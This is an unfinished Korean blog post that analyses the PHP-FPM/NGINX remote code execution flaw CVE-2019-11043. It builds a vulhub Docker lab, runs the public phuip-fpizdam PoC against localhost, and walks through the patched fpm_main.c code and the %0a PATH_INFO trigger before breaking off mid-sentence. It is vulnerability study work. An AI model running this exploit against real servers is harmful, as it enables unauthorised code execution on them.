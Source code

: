 ```yaml
---
layout: post
title: '[위협] PHP-FPM + NGINX RCE(CVE-2019-11043)'
subtitle: 'threat, php, fpm, nginx'
categories: threat
tags: application
comments: true
---
```


> 이 글은 어플리케이션 취약점을 분석한 글입니다. 출처: https://paper.seebug.org/1064/

# PHP-FPM + NGINX RCE

- PHP 7+
- CentOS 8

<br>
<br>

PHP-FPM(FastCGI Process Manager)은 동적 페이지를 빠르게 처리하기 위해 NginX, Apache와 연동하여 사용하는 CGI 이다.

해당 취약점은 아래와 같이 잘못된 NginX configuration으로 PHP-FPM을 사용할 경우 발생한다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)<br>
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

## 직접 공격해 보도록 하자. 

취약성을 가진 환경을 만들기 위해, Exploit DB에서 제공하는 `vulhub` 깃에서 도커 이미지를 받아온다.

```bash
[test@localhost Desktop]$ git mkdir test
[test@localhost test]$ git init
[test@localhost test]$ git config core.sparseCheckout true
[test@localhost test]$ git remote add -f origin https://github.com/vulhub/vulhub
[test@localhost test]$ echo "php/CVE-2019-11043" >> .git/info/sparse-Checkout
[test@localhost test]$ git pull origin master
[test@localhost test]$ mv -v CVE-2019-11043/ /home/유저아이디/Desktop/
[test@localhost test]$ rm -rf test
[test@localhost CVE-2019-11043]$ sudo docker-compose up -d
```

![](https://chanbin.github.io/assets/img/php-fpm/2.png)<br>
<center>취약한 환경 구축</center>

<br>
<br>

Github에서 PoC 코드를 다운받아 공격 명령을 실행해본다.<br>해당 코드는 `golang`으로 작성되었다.

```bash
[test@localhost Desktop]$ sudo vi /etc/resolv.conf
nameserver 8.8.8.8 추가
[test@localhost Desktop]$ wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ tar -xzf go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ sudo mv go /usr/local
[test@localhost Desktop]$ mkdir test
[test@localhost Desktop]$ export GOROOT=/usr/local/go
[test@localhost Desktop]$ export GOPATH=$HOME/Desktop/test
[test@localhost Desktop]$ export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
# 환경변수를 유지하기 위해서는 ~/.bash_profile 파일에 입력해야 한다.
[test@localhost test]$ go get -v github.com/neex/phuip-fpizdam
[test@localhost test]$ go install github.com/neex/phuip-fpizdam
[test@localhost Desktop]$ phuip-fpizdam http://127.0.0.1:8080/index.php
[test@localhost test]$ 
```

![](https://chanbin.github.io/assets/img/php-fpm/3.png)<br>
<center>취약점을 통해 파일 작성 후 원격 코드 실행 화면</center>

<br>
<br>

## 이제 분석해 보도록 하자. 

취약점 패치 내역을 다시 보면 `path_info` 변수의 조건에 문자열 길이 필터를 추가하여, false 값으로 유도하지 못하게 하고있다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)<br>
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

취약점 제보자의 문서를 찾아보면 `fastcgi_split_path_info` 지시문의 정규표현식은 개행 문자(\n,%0A)를 사용하여 해제할 수 있다. 정규표현식이 제대로 작동하지 않으므로 `PATH_INFO`는 취약점의 트리거가 될 수 있다라고 나온다.

> The regexp in `fastcgi_split_path_info` directive can be broken using the newline character (in encoded form, %0a). Broken regexp leads to empty PATH_INFO, which triggers the bug.

이 말은, 위 사진의 수정되기 전 코드를 보면, `path_info`값이 NULL값으로 설정될 수 있다는 뜻이다.

소스코드를 자세히 보면,

```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
989		char *env_path_info = FCGI_GETENV(request, "PATH_INFO");
		...
1108	char *pt = estrndup(script_path_translated, script_path_translated_len);
		...
1131	int ptlen = strlen(pt);
1132	int slen = len - ptlen;
1133	int pilen = env_path_info ? strlen(env_path_info) : 0;
1134	int tflag = 0;
1135	char *path_info;
1136	if (apache_was_here) {
1137		/* recall that PATH_INFO won't exist */
1138		path_info = script_path_translated + ptlen;
1139		tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
1140	} else {
1141		path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
1142		tflag = path_info && (orig_path_info != path_info);
1143	}
		...
```

`env_path_info` 는 FastCGI 모듈의 환경변수를 가져오는 FCGI_GETENV함수로, 클라이언트의 요청값에서 `PATH_INFO`(path_info와 동일)의 문자열 주소값을 가지고 있습니다.

클라이언트의 잘못된 요청으로 `path_info`가 NULL이 되면 1133번째 줄의 코드대로, `pilen = 0`이 된다. 참고로, C언어에서 `변수선언 = 조건? 참 : 거짓;`라는 문법이 존재한다. 조건이 참일 시 콜론(:)앞의 값으로 선언이, 거짓일 시 콜론 뒤의 값으로 선언이 이루어 진다.

`pt`는 


<br>
<br>

작성 중...